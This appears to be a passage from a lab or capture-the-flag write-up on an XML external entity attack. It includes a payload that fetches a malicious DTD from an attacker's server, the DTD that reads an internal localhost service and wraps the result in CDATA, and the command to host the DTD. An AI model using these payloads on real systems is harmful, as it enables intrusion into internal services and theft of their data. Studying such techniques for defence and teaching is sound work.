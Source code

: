 **convert.py:**

```python
import socket
import struct
hex_ip = input("Enter IP (in hex): ")
addr_long = int(hex_ip, 16)
print("IP in dotted-decimal notation:", socket.inet_ntoa(struct.pack("<L", addr_long)))
```





We will send the following XML snippet to the vulnerable web application:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
    <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
    %dtd;
    %all;
]>
<data>&fileContents;</data>
```



Before sending the above XXE payload, save the following snippet as `evil.dtd`:

```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```



Start a Python-based HTTP server on port 8080:

```bash
python3 -m http.server 8080
```



**Information on the payload:**

The first payload (sent to the web app for validation) would load the contents of the `evil.dtd` file from the attacker machine and then this file would be parsed by the backend.

The `evil.dtd` file contains the entity that sends a request to `localhost:8888` and the result is embedded within the CDATA section.

**Information on CDATA:** CDATA sections can be used to "block escape" literal text when replacing prohibited characters with entity references is undesirable.

**Reference:** https://www.w3resource.com/xml/CDATA-sections.php

Some examples of prohibited characters are `<`, `>`, `&`, `"`, `'`.

So, the above payload makes sure that if the response does contain some restricted characters, those characters will get embedded into the CDATA section, and hence the XML validator will raise no errors.
